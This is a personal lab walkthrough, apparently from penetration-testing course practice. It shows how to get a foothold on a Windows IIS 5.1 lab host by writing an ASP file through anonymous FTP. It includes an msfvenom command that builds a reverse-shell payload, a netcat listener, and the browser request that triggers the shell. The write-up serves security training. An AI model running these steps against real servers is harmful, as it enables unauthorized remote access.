 Getting a Foothold

1. Enumerate the ports via NMAP scan. We ran a TCP Connect scan and saw that there is a Windows FTP service on port 21 and Windows web server at port 80.

2. Run NMAP scripts. Most interesting at this time is the FTP information and interesting directories at port 80

3. Run a non-recursive dirb scan. The /Scripts directory looks interesting

4. Login to FTP 21 as anonymous and verify the directories listed in the NMAP scan. We can put a .txt file into the default directory (the one we're dropped in after login), /Scripts, and /wwwroot and be able to view it from browser. 

5. Trial and error tells us that we cannot execute .exe files from the browser because it is access denied.

6. Google Search: `microsoft iis 5.1 language`
This shows us that it uses ASP language. Instead of the PHP shell we are used to, we can try an ASP shell
![e6c97fc04baf3cdbe3d4966add848eb5.png](:/d1d50eb5e805455384d278c2c934d192)

7. Enumerate for webdav using NMAP and davtest.
**davtest results are not reliable.** On this target, it specified that it failed to send an .asp, but was successful in sending .aspx. But a manual test shows that when we generate ASP shellcode, upload via FTP, then browse to the location, the ASP code is executed.

8. Generate the shellcode with msfvenom
After trial and error, we find that we need non-staged ASP shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=445 -f asp > windows_shell_reverse_tcp_192.168.119.214_445.asp`
This shellcode is located on the attack machine (kali): `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/shellcodes/nonstaged/windows_shell_reverse_tcp_192.168.119.214_445.asp`
![e62b6f11cefe26052a5e4332bd96ea0e.png](:/b5cd820188834df9976f7d00342815eb)

9. Upload the ASP shellcode file to the target via FTP. In this example, we renamed it to shell445.asp when using the PUT command **Remember to use BINARY mode before using PUT** 
![47cd87d7b2f331ea6288eb43e26a1a41.png](:/429ec6b5a246488ea257389c1f47c414)

10. Open a netcat listener on the attack machine
`sudo nc -lvnp 445`

11. Now open a browser and access the shell
`http://10.11.1.14/Scripts/shell445.asp`
![9404cd821499e63e1256c66bbc8f9d08.png](:/0eebc65fccd346cbaef527f5ca429cfb)

12. Check that the nc listener shows a shell
![b2e2485913a680021cc5ee2efa09d30d.png](:/91d7c87ea0f446af87ece5e2a4f52380)



id: 0ee04ff72519413cb8e633e2911bf604
parent_id: 21292791d7a84439990b13f099353ddd
created_time: 2020-08-26T09:02:28.183Z
updated_time: 2020-08-30T07:12:54.897Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-26T09:02:28.183Z
user_updated_time: 2020-08-30T07:12:54.897Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1